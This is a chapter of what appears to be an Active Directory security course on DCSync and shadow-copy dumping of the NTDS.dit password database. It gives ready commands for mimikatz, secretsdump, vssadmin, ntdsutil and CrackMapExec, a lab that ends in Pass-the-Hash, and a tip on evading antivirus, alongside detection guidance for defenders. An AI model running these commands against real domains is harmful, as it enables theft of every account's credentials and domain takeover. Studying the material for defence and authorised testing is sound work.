


# DCSync & Shadow Copies: The Keys to the Kingdom

> **Executive Summary**: The ultimate goal in AD is usually to dump the `NTDS.dit` database (containing all password hashes). **DCSync** achieves this via the replication protocol (DRS-R) without logging in to the DC. **Shadow Copies** achieve this by accessing the locked database file on the DC's disk via VSS.

## 1. Learning Objectives
By the end of this chapter, you will be able to:
- **Execute DCSync**: Impersonate a DC to request hashes.
- **Identify Rights**: Find users with `GetChangesAll` permission.
- **Dump via VSS**: Use `vssadmin` and `ntdsutil` to copy locked files.
- **Parse NTDS**: Use `secretsdump.py` to extract hashes.

## 2. Core Concepts: Replication

### 2.1 The DRS Protocol
Domain Controllers must sync changes (New users, password updates). They use the **Directory Replication Service (DRS)** protocol.
- **Feature**: If a DC asks another DC for a user's secret data (password hash), the other DC provides it.
- **AuthZ**: To do this, you need `DS-Replication-Get-Changes-All` permission on the Domain Root. (Default: Domain Admins, Domain Controllers).

### 2.2 Volume Shadow Copy (VSS)
`NTDS.dit` is locked by the LSASS process. You cannot copy it (`cp ntds.dit backup.dit` fails).
- **VSS**: Windows backup technology. Creates a "snapshot" of the disk. The snapshot is static and readable.

## 3. Deep Dive: DCSync Attack

### 3.1 Requirements
You don't need to be "Domain Admin". You just need the extended right: **Replicating Directory Changes All**.
- Sometimes these rights are delegated to backup service accounts. Finding such an account allows DCSync without being DA.

### 3.2 Execution
**Mimikatz**:
```cmd
lsadump::dcsync /domain:corp.local /user:krbtgt
```
**Impacket**:
```bash
secretsdump.py corp.local/admin:pass@dc01
```
(This automatically runs DCSync).

### 3.3 Target: KRBTGT
The first thing you sync is `krbtgt`. With this, you create Golden Tickets (Persistence). Then you sync `Administrator`.

## 4. Deep Dive: VSS Dumping (IFM - Install from Media)

### 4.1 Technique 1: VSSAdmin
Native tool.
```cmd
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Temp\SYSTEM
```
(You need the SYSTEM hive to decrypt the NTDS).

### 4.2 Technique 2: Ntdsutil
Built-in AD tool.
```cmd
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```
Creates a clean backup with ntds.dit and SYSTEM hive.

### 4.3 Technique 3: DiskShadow
Scriptable VSS tool. Often used to bypass AV monitoring of `vssadmin`.

## 5. Red Team Perspective

### 5.1 Remote Dumping
- **CrackMapExec**: `cme smb 192.168.1.10 -u admin -p pass --ntds vss`.
- Automates the VSS creation, copy, download, and parsing remotely.

### 5.2 Parsing
Once you have `ntds.dit` and `SYSTEM`:
```bash
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```
Output: List of `User:NTHash`.

## 6. Blue Team Perspective

### 6.1 Detecting DCSync
- **Network**: DRS traffic (RPC) coming from a *non-DC* IP.
- **Logs**: Event ID 4662 (Access to DS Object).
    - Properties: `1131f6aa...` (GUID for GetChangesAll).
    - User: Not a Machine Account ($).

### 6.2 Detecting VSS
- **Logs**: Event ID 4688 (Process Create) for `vssadmin`, `ntdsutil`, `diskshadow`.
- **Alert**: Any access to `ntds.dit`.

## 7. Practical Lab: Dumping the Domain

### Scenario: You are DA
You have a shell on the DC.

**Step 1: DCSync KRBTGT**
```bash
mimikatz # lsadump::dcsync /user:krbtgt
```
*Record the NTLM Hash*.

**Step 2: VSS Method**
Run `ntdsutil` commands (Section 4.2).
Download the folder.

**Step 3: Verify**
Use the extracted Administrator hash to Pass-the-Hash back to the DC.

## 8. Diagrams

### DCSync Logic



## 9. Critical Analysis

### The "All" vs "Single"
- **DCSync** allows targeted extraction. "Give me just the CEO's hash". Less noise (smaller transfer).
- **VSS** gets *everything*. Massive file transfer. Higher risk of detection via network monitoring (Data Exfil).

### Interview Questions
1.  **Q**: Can you DCSync if you are a Local Admin on the DC?
    -   **A**: Yes. If you are Local Admin on the DC, you can elevate to SYSTEM. The Computer Account (DC$) has DCSync rights. You can use the DC's own computer account to request hashes from itself (or another DC).
2.  **Q**: Why do you need the SYSTEM registry hive?
    -   **A**: The `NTDS.dit` database is encrypted. The Boot Key (Syskey) required to decrypt it is stored in the `HKLM\SYSTEM` hive.

## 10. References
- [[06_Active_Directory_Attacks/01_Credential_Harvesting]]
- [[03_Active_Directory_Structure]]
